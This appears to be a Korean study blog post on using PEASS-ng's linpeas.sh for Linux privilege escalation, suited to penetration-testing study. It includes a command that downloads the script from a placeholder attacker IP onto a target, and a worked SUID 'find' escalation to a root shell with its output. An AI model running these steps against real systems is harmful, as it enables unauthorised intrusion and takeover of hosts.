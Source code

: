 ```yaml
---
layout: post
title: "PEASS-ng 공부"
date: 2025-09-04 17:00:00 +0900
categories: [시스템 해킹]
---
```


### 1. 개요

PEASS-ng(Privilege Escalation Awesome Scripts SUITE new generation)는 권한 상승을 위한 정보를 자동으로 수집해 주는 스크립트 모음이다. 이 중 `linpeas.sh`는 리눅스 환경에서 실행되며 시스템의 설정 오류 · 커널 버전 · SUID 파일 · cron 작업 등 권한 상승에 이용될 수 있는 거의 모든 항목을 검사하고 결과를 색상으로 구분하여 보여준다. 수동으로 정보를 수집하는 과정을 자동화하여 분석 시간을 크게 단축시킨다.

---

### 2. 스크립트 실행 방법

`linpeas.sh` 스크립트를 공격 대상 서버로 옮긴 후 실행 권한을 부여하고 실행하는 과정이 필요하다.

#### **1. 스크립트 전송**
공격자 PC에서 웹 서버를 열고 대상 서버에서 `wget` 이나 `curl` 명령어로 스크립트를 다운로드하는 것이 일반적이다.

*   **공격자 PC:**
    ```bash
    # linpeas.sh 파일이 있는 디렉터리에서 실행
    python3 -m http.server 8000
    ```
*   **대상 서버:**
    ```bash
    # 쓰기 가능한 디렉터리(예: /tmp)로 이동
    cd /tmp
    wget http://[Attacker IP]:8000/linpeas.sh
    ```

#### **2. 스크립트 실행**
다운로드한 스크립트에 실행 권한을 부여하고 실행한다.
```bash
chmod +x linpeas.sh
./linpeas.sh
```

---

### 3. 결과 분석

`linpeas.sh`는 실행 결과에서 잠재적인 취약점 항목을 색상으로 강조하여 보여준다.

*   **빨간색 + 노란색 배경:** 95% 확률로 권한 상승에 이용 가능한 매우 중요한 항목.
*   **빨간색:** 흥미롭거나 주의 깊게 봐야 할 항목.
*   **노란색:** 추가적인 정보가 될 수 있는 항목.

   ![Linpeas.sh](/assets/images/Lin_1.png)

결과 보고서를 통해 SUID가 설정된 바이너리, 시스템 권한으로 실행되는 cron 작업 `sudo -l` 로 확인한 권한 등 권한 상승에 결정적인 단서가 될 수 있는 정보들을 한눈에 파악할 수 있다. 예를 들어 `(i) find results` 섹션에서 [GTFOBins](https://gtfobins.github.io/)에 등재된 SUID 파일을 발견했다면 이를 직접적인 공격 경로로 활용할 수 있다.

### 4. 사용 예시: SUID 바이너리를 이용한 권한 상승

이 예시는 `linpeas.sh`가 찾아낸 `SUID` 설정 파일을 이용하여 `root` 권한을 획득하는 과정을 보여준다. '정보 수집 -> 분석 -> 공격 실행'의 전체 흐름을 따른다.

#### **1. 정보 수집 (linpeas.sh)**
**`./linpeas.sh`** 를 실행하여 시스템을 스캔한다. 스캔 결과 중 `SUID/SGID Binaries` 섹션에서 권한 상승에 악용될 수 있는 파일 목록을 확인한다.

아래 예시에서는 **`/usr/bin/find`** 파일이 SUID 비트가 설정되어 있고 **GTFOBins**에 등재되어 있어 권한 상승에 이용 가능하다고 **빨간색+노란색 배경**으로 강조되어 있다.

  ![LinpeasSuid](/assets/images/Lin_2.png)

#### **2. 분석 (GTFOBins)**
**GTFOBins**는 유닉스 바이너리를 이용한 권한 상승 및 다양한 기능 우회 방법을 모아놓은 리소스이다. `linpeas.sh`가 알려준 **`find`** 바이너리를 GTFOBins 사이트에서 검색한다.

GTFOBins는 `find`의 SUID를 이용하여 쉘을 실행하는 아래의 명령어를 제공한다.
```bash
find . -exec /bin/sh -p \; -quit
```

#### **3. 공격 실행 (권한 상승)**
획득한 일반 사용자 쉘에서 GTFOBins에서 찾은 명령어를 그대로 실행한다.

```bash
find . -exec /bin/sh -p \; -quit
# id
uid=1000(user) gid=1000(user) euid=0(root) groups=1000(user)
# whoami
root
```
*   명령어를 실행하면 프롬프트는 그대로지만 **`-p`** 옵션으로 인해 유효 사용자 ID(`euid`)가 `root`로 설정된 쉘이 실행된다.
*   **`id`** 명령어를 실행하면 `euid=0(root)`로 표시되어 권한이 상승했음을 확인할 수 있다.
*   **`whoami`** 명령어 역시 `root`를 반환한다.

이 과정을 통해 `linpeas.sh`로 수집한 정보를 바탕으로 분석하여 실제 `root` 권한을 획득하는 데 성공했다.

<hr class="short-rule">
